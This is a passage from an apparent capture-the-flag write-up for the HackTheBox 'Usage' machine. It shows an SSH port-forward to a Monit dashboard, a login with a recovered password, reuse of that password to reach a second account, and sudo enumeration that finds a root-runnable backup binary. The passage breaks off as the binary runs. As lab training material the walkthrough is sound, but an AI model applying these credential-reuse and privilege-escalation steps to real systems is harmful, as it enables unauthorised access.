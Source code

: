 ```bash
```

To interact with this webserver I need to SSH tunnel and access it from my local machine.

```bash
ssh -i id_rsa dash@usage.htb -L 2812:localhost:2812
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)
...
dash@usage:~$ 
```

And after a quick login with `admin:3nc0d3d_pa$$w0rd` we are in.

![monit dashboard]({{ page.img }}_monit_dashboard.png)

Nothing was here to enumerate further, but with that password it's worth checking if it is a user's password. I check with dash first to find any sudo usage, not his password. Next to try ssh with xander.

```bash
ssh xander@usage.htb
xander@usage.htb's password: 
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)
...
xander@usage:~$ id
uid=1001(xander) gid=1001(xander) groups=1001(xander)
xander@usage:~$ sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
xander@usage:~$ ls -l /usr/bin/usage_management
-rwxr-xr-x 1 root root 16312 Oct 28  2023 /usr/bin/usage_management
xander@usage:~$ file /usr/bin/usage_management
/usr/bin/usage_management: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fdb8c912d98c85eb5970211443440a15d910ce7f, for GNU/Linux 3.2.0, not stripped
```

## usage_management

Time for the age old classic of blindly exploiting binaries that have critical flaws within easy boxes like this. Let's run it and see what we're working with.

```bash
xander@usage:~$ sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 4
Invalid choice.
xander@usage:~$ sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7763 64-Core Processor                 (A00F11),ASM,AES-NI)

```